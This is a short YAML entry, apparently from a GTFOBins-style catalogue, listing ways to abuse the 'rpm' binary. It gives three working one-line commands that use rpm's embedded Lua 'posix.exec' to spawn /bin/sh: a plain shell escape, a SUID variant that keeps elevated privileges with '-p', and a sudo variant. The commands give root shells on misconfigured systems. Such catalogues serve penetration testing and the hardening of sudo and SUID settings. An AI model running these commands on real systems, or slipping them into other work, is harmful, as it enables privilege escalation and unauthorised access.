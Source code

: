 ```yaml
---
functions:
  execute-interactive:
    - code: rpm --eval '%{lua:posix.exec("/bin/sh")}'
  suid-enabled:
    - code: ./rpm --eval '%{lua:posix.exec("/bin/sh", "-p")}'
  sudo-enabled:
    - code: sudo rpm --eval '%{lua:posix.exec("/bin/sh")}'
---
```

